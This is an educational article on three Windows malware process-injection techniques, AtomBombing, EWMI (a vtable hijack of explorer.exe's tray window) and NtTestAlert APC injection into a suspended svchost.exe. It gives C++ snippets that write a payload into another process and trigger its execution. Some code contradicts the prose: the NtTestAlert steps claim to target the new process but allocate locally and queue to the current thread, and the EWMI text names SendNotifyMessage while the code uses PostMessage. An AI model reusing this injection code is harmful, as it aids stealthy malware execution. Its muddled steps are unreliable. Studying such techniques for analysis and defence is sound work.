


:orphan:
(malware-injection-techniques-atombombing-ewmi-nttestalert)=

# Malware Injection Techniques: AtomBombing, EWMI, NtTestAlert

AtomBombing is a malware injection technique that inserts malicious code into legitimate process threads. This technique is often used by attackers to gain persistence on a system or to elevate privileges. The code that is injected into the thread can be executed when the thread is scheduled, which allows the attacker to execute their code without needing to create a new process.

## Atom tables

Atom table - system-defined table that contains strings and their corresponding identifiers. An application stores a string in an atom table and receives an atom, a `16-bit` integer that can be used to access the string. Atom names are strings that have been placed in atom tables.

The system offers several atom tables. Each atom table serves a unique function. DDE applications, for instance, utilize the global atom table to share item-name and topic-name strings with other applications. Instead of passing actual strings, a DDE application sends its partner application global atoms. The partner retrieves the strings from the atom table using the atoms.

Local atom tables can be used by applications to store their own item-name associations.

The system employs atom tables that are inaccessible to applications directly. However, the application calls a variety of functions using these atoms. For instance, clipboard formats registered by the system are stored in an internal atom table. Using the `RegisterClipboardFormat` function, an application adds atoms to the atom table.
In addition, registered classes are stored in a system-wide internal atom table. Using the `RegisterClass` or `RegisterClassEx` function, an application adds atoms to the atom table.

### Injection

Additionally dependent on APC injection, the AtomBombing technique uses the atom table to write into the memory space of another thread.

The following function calls can cause a thread to enter the alertable state:

Alertable state functions
The following 5 functions (and their low-level syscall wrappers):

- `SleepEx` (`NtDelayExecution`)
- `WaitForSingleObjectEx` (`NtWaitForSingleObject`)
- `SignalObjectAndWait` (`NtSignalAndWaitForSingleObject`)
- `MsgWaitForMultipleObjectsEx` (`NtUserMsgWaitForMultipleObjectsEx`)
- `WaitForMultipleObjectsEx` (`NtWaitForMultipleObjects`)

Then, malware chooses a thread in a alertable state.

Calls `OpenThread`:

```cpp
//....
HANDLE th = OpenThread(THREAD_SET_CONTEXT|
THREAD_QUERY_INFORMATION, FALSE, thread_id);
```

Then:

```cpp
ATOM a = GlobalAddAtomA(payload);
NtQueueApcThread(th, GlobalGetAtomNameA, (PVOID)a,
(PVOID)(target_payload), (PVOID)(sizeof(payload)));
```

### Extra Window Memory Injection (EWMI)

The _PowerLoader_ and _Gapz_ malware families employ the _EWMI_ injection technique, which injects malicious code into the "extra window memory" of the Explorer tray window.

When a window class is registered, the application can determine an additional number of memory bytes known as extra window memory (EWM).

Since EWM space is limited, the malware stores its code in a shared section of `explorer.exe`, uses `SetWindowLong` and `SendNotifyMessage` to create a function pointer to the shellcode, and then executes it.

To write into the shared section, malware may employ either of the following strategies:

1. Create a shared section and connect it to both itself and another process.
2. access an existing shared section

Since the first method incurs an overhead when allocating heap space and calling multiple APIs, including `NTMapViewOfSection`, the second method is utilized more frequently.

After writing the code to the shared section, the malware uses `GetWindowLong` and `SetWindowLong` to access and modify the window memory of _"Shell TrayWnd"_:

```cpp
//...
    // 1. Obtain a handle for the shell tray window
    hw = FindWindow(L"Shell_TrayWnd", NULL);

    // 2. Obtain a process id for explorer.exe
    GetWindowThreadProcessId(hw, &pid);

    // 3. Open explorer.exe
    hp = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);

    // 4. Obtain pointer to the current CTray object
    ctp = GetWindowLongPtr(hw, 0);

    // 5. Read address of the current CTray object
    ReadProcessMemory(hp, (LPVOID)ctp,
        (LPVOID)&ct.vTable, sizeof(ULONG_PTR), &wr);

    // 6. Read three addresses from the virtual table
    ReadProcessMemory(hp, (LPVOID)ct.vTable,
      (LPVOID)&ct.AddRef, sizeof(ULONG_PTR) * 3, &wr);

    // 7. Allocate RWX memory for code
    cs = VirtualAllocEx(hp, NULL, payloadSize,
      MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    // 8. Copy the code to target process
    WriteProcessMemory(hp, cs, payload, payloadSize, &wr);

    // 9. Allocate RW memory for the new CTray object
    ds = VirtualAllocEx(hp, NULL, sizeof(ct),
      MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

    // 10. Write the new CTray object to remote memory
    ct.vTable  = (ULONG_PTR)ds + sizeof(ULONG_PTR);
    ct.WndProc = (ULONG_PTR)cs;

    WriteProcessMemory(hp, ds, &ct, sizeof(ct), &wr);

    // 11. Set the new pointer to CTray object
    SetWindowLongPtr(hw, 0, (ULONG_PTR)ds);

    // 12. Trigger the payload via a windows message
    PostMessage(hw, WM_CLOSE, 0, 0);

    // 13. Restore the original CTray object
    SetWindowLongPtr(hw, 0, ctp);

    // 14. Release memory and close handles
    VirtualFreeEx(hp, cs, 0, MEM_DECOMMIT | MEM_RELEASE);
    VirtualFreeEx(hp, ds, 0, MEM_DECOMMIT | MEM_RELEASE);

    CloseHandle(hp);
//...
```

The `GetWindowLong` and `SetWindowLong` APIs are used to retrieve and modify the `32-bit` value at the specified offset in the window class object's extra window memory.

This enables the malware to change the offset of a function pointer within a window class to point to the shellcode inserted into the shared section.

To trigger the code execution, the malware calls the `SendNotifyMessage`.

_"Shell_TrayWnd"_ will receive and transfer control to the address specified by the value set by `SetWindowLong` when `SendNotifyMessage` is executed.

Malware PowerLoader disassembly using IDA Pro demonstrating the application of this technique:





### NtTestAlert

Make a main thread APC using the previously discussed `QueueUserAPC()` technique, but make the kernel run that thread instead.

The steps are as follows:

Suspend a valid process, such as the `svchost.exe` process:

```cpp
//...
STARTUPINFO si;
PROCESS_INFORMATION pi;
LPVOID my_payload_mem;
SIZE_T my_payload_len = sizeof(my_payload);
LPCWSTR cmd;
HANDLE hProcess, hThread;
NTSTATUS status;

ZeroMemory(&si, sizeof(si));
ZeroMemory(&pi, sizeof(pi));
si.cb = sizeof(si);

CreateProcessA(
"C:\\Windows\\System32\\svchost.exe",
NULL, NULL, NULL, false,
CREATE_SUSPENDED, NULL, NULL, &si, &pi
);
//...
```

Allocate memory in the created process:

```cpp
LPVOID address = VirtualAlloc(NULL, my_payload_len, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
```

Write the shellcode into the allocated memory space:

```cpp
WriteProcessMemory(procHandle, address, my_payload, my_payload_len, NULL);
```

Queue an asynchronous procedure call (APC) to the newly-created process' main thread:

```cpp
PTHREAD_START_ROUTINE apcRoutine = (PTHREAD_START_ROUTINE)address;
QueueUserAPC((PAPCFUNC)apcRoutine, GetCurrentThread(), NULL);
```

Call the `NtTestAlert` function to direct the kernel to execute malicious code when the main thread resumes operating since the APC can start process executing only when it is in an alertable state:

```cpp
HMODULE hNtdll = GetModuleHandleA("ntdll");
myNtTestAlert testAlert = (myNtTestAlert)(GetProcAddress(hNtdll, "NtTestAlert"));
testAlert();
```

## References

- [Brand New Code Injection for Windows](https://github.com/BreakingMalwareResearch/atom-bombing)

:::{seealso}
Would you like to learn practical malware analysis techniques? Then register for our online course! [MRE - Certified Reverse Engineer](https://www.mosse-institute.com/certifications/mre-certified-reverse-engineer.html)
:::
